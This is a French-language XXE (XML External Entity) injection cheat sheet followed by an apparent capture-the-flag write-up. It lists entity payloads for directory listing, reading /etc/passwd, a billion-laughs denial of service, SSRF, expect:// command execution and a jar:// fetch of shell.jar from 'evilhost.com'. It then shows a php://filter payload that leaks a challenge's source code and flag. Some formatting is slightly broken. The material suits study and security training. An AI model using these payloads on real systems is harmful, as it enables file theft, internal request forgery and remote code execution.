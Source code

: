 # XXE

## principe

1. Injecter des balises XML qui seront interprétées par le moteur XML côté serveur
2. Définir des variables XML, appelées entités, au niveau de la définition du schéma XML
3. Ces entités permettent de référencer des fichiers présents sur le système, de contacter une URL externe, etc.

### exemple

Injecter la balise DOCTYPE afin de définir une entité qui pointe vers un fichier connu :

<!DOCTYPE test [<!ENTITY x3 SYSTEM "/"> ]>

Insérer ensuite l’entité définie, en l’occurrence &x3; dans une balise XML contenue dans le document envoyé :

<max: QUANTITY>3&x3;</max: QUANTITY>

Il est nécessaire que le serveur renvoie ce champ au navigateur afin de pouvoir récupérer le contenu du fichier


## esemple de déclaration (il faut ensuite les appeller dans le document xml)

### Directory listing : 

<!DOCTYPE test [<!ENTITY test SYSTEM "/"> ]>

### Déni de service :

<!DOCTYPE test [<!ENTITY lol "lol" <!ELEMENT test (#PCDATA)> <!ENTITY lol1 "&lol;"> <!ENTITY lol2 "&lol1;">…. <!ENTITY lol9 "&lol8;"> ]>

### SSRF (Server Side Request Forgery ) :

<!DOCTYPE test [<!ENTITY test SYSTEM "http://site:8080/manager/html"> ]>

### Exécution de code (le serveur supporte le handler expect) :

<!DOCTYPE test [<!ENTITY test SYSTEM "expect://ls"> ]>

### Upload de Jar malveillant :

<!DOCTYPE test [<!ENTITY test SYSTEM "jar://evilhost.com/shell.jar"> ]>



## Exemple de page malicieuse exploitant une XXE:

```

Tout d’abord on inspecte la page et on remarque tout de suite qu’elle nous permet de donner un lien contenant un fichier XML.
 On va récupérer un petit fichier de RSS en XML sur Wikipédia

```
?xml version="1.0" encoding="UTF-8"?>
<rss version="2.0">
    <channel>
        <title>Mon site</title>
        <description>Ceci est un exemple de flux RSS 2.0</description>
        <lastBuildDate>Sat, 07 Sep 2002 00:00:01 GMT</lastBuildDate>
        <link>http://www.example.org</link>
        <item>
            <title>Actualité N°1</title>
            <description>Ceci est ma première actualité</description>
            <pubDate>Sat, 07 Sep 2002 00:00:01 GMT</pubDate>
            <link>http://www.example.org/actu1</link>
        </item>
        <item>
            <title>Actualité N°2</title>
            <description>Ceci est ma seconde actualité</description>
            <pubDate>Sat, 07 Sep 2002 00:00:01 GMT</pubDate>
            <link>http://www.example.org/actu2</link>
        </item>
    </channel>
</rss>

```

On l’héberge sur un host et on envoie l’URL du fichier : http://site.com/rss.xml

Le challenge nous affiche le résultat de notre XML sous la forme :
===================================================
Actualité N°1
===================================================
XML document is valid
===================================================
Actualité N°2
===================================================
XML document is valid

On tente donc une XML External Entity Injection (XXE) en ajoutant à notre rss.xml :
<!DOCTYPE foo [
<!ENTITY xxe SYSTEM "file:///etc/passwd" >
]><title>&xxe;</title>

Cela nous affiche le contenu du fichier passwd , on essaie ensuite  avec le path de l’index du challenge mais cela n’a pas fonctionné.
 Après une recherche plus approfondie sur les XXE on apprend qu’il est  possible de les utiliser avec les PHP Filters, c’est génial on va  pouvoir faire comme pour les LFI et afficher le code source de la page  d’index en base 64.
 
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
<!ENTITY xxe SYSTEM "php://filter/read=convert.base64-encode/resource=/challenge/web-serveur/ch29/index.php" >
]>

  <rss version="2.0">
    <channel>
        <title>Mon site</title>
        <description>Ceci est un exemple de flux RSS 2.0</description>
        <lastBuildDate>Sat, 07 Sep 2002 00:00:01 GMT</lastBuildDate>
        <link>http://www.example.org</link>
        <item>                
            <title>&xxe;</title>
            <description>Ceci est ma première actualité</description>
            <pubDate>Sat, 07 Sep 2002 00:00:01 GMT</pubDate>
            <link>http://www.example.org/actu1</link>
        </item>
        <item>
            <title>Actualité N°2</title>
            <description>Ceci est ma seconde actualité</description>
            <pubDate>Sat, 07 Sep 2002 00:00:01 GMT</pubDate>
            <link>http://www.example.org/actu2</link>
        </item>        
    </channel>
</rss>

Cela nous renvoie le code chiffrée en base 64, on le dechiffre soit  avec la fonction PHP : base64_decode(data), soit avec un site en ligne  comme https://www.base64decode.org
 Dans le code source de la page d’index on trouve le flag :
 
if($user === "admin" && $pass === "c934fed17f1cac3045ddfeca34f332bc"){

                        print "Flag : c934fed17f1cac3045ddfeca34f332bc<br />";

                }

C’est gagné les amis, on a trouvé le flag qui nous permet de valider le challenge !!


```